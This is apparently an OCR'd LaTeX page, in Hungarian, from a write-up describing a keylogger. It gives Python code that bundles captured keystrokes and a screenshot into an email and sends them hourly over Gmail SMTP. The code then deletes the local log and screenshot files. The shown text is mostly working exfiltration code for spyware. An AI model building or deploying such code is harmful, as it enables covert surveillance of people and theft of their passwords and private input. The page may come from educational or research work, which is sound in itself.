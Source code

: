 \documentclass[a4paper, 11pt]{article}
\begin{document}
Ha a kapcsolat felbomlott, akkor e-mail-en keresztül küldi tovább az adatokat óránként. Itt lépnek érvénybe a gmail cím, a jelszó, a gmail api, és a gmail port. Az adat felépítése ugyan úgy zajlik, mint a TCP kapcsolat alatt. Ebben az esetben a lenyomott billentyűket összegyűjti egy állományba és azt csatolja később az e-mail-hez a képernyőképpel együtt. Egy e-mail felépítése python 3-ban:
\begin{lstlisting}{language=Python}
msg = MIMEMultipart()
msg['From'] = self.email_address
msg['To'] = self.email_address
msg['Subject'] = 'Keylogger result'
body = date_time
msg.attach(MIMEText(body, 'plain'))
file_attachment = MIMEBase('application', 'octet-stream')

with open(os.path.join(temp_path, filename), 'rb') as handler:
file_attachment.set_payload(handler.read())

encoders.encode_base64(file_attachment)
file_attachment.add_header('Content-Disposition', "attachment; filename=" + filename)
msg.attach(file_attachment)

if take_screenshot(temp_path):
	image_attachment = MIMEBase('application', 'octet-stream')

	with open(os.path.join(temp_path, "screenshot.png"), 'rb') as handler:
		image_attachment.set_payload(handler.read())

	encoders.encode_base64(image_attachment)
	image_attachment.add_header('Content-Disposition', "attachment; filename=screenshot.png")
	msg.attach(image_attachment)

content = msg.as_string()
\end{lstlisting}
Miután felépítettük az e-mail-t, kell csatlakozni a gmail szerverhez és elküldeni azt. Ha az e-mail sikeresen el lett küldve, akkor az az állomány, amelybe a lenyomott billentyűket mentettük, törlésre kerül, hogy ne küldjük el ugyan azt mégegyszer. A $content$ változó tartalmazza a teljes e-mail-t a csatolmányokkal együtt.
\begin{lstlisting}{language=Python}
with smtplib.SMTP(self.smtp_alias, self.smtp_port) as smtp_server:
	smtp_server.starttls()
	smtp_server.login(self.email_address, self.email_password)
	smtp_server.sendmail(self.email_address, self.email_address, content)

if os.path.isfile(os.path.join(temp_path, filename)):
	os.remove(os.path.join(temp_path, filename))
if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
	os.remove(os.path.join(temp_path, "screenshot.png"))
\end{lstlisting}
\end{document}
